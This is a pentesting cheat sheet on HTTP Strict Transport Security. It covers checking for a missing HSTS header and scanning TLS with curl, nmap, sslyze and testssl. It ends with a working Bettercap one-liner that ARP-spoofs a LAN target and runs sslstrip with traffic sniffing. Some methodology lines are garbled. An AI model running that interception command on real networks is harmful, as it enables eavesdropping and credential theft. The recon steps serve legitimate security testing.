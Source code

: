 # HTTP Strict Transport Security

## Check List

* [ ] Review the HSTS header and its validity.

## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
Access the Target URL and Inspect the Response Headers Use a tool such as **Burp Suite**, **cURL**, or **browser dev tools** to inspect the HTTP response headers The best way is to use this cheat sheet Example using cURL
{% endstep %}

{% step %}
Check for HSTS Header Confirm the absence of the following header in the server response `Strict-Transport-Security` _The best way to exploit and exploit this vulnerability is to use a cheat sheet_
{% endstep %}
{% endstepper %}

### Recon Header

#### [cURL](https://curl.se/)

```bash
curl -s -D- $WEBSITE | grep -i strict
```

#### [Nmap](https://nmap.org/)

```bash
nmap -sS -sV --mtu 5000 --script ssl-enum-ciphers $WEBSITE
```

### Scan Vulnerabilities

#### [sslyze](https://github.com/nabla-c0d3/sslyze)

```bash
sslyze $WEBSITE
```

#### [testssl.sh](https://github.com/drwetter/testssl.sh)

```bash
testssl $WEBSITE
```

### MitM

#### [Bettercap](https://www.bettercap.org/)

{% hint style="info" %}
Interface Network
{% endhint %}

```bash
INTERFACE=$(ip -o -4 addr show | awk '{print $2}' | grep -v "lo" | head -n 1)
```

{% hint style="info" %}
MitM on LAN
{% endhint %}

```bash
bettercap -iface $INTERFACE -eval "set arp.spoof.targets $TARGET; arp.spoof on; http.proxy on; http.proxy.sslstrip true; net.sniff on"
```
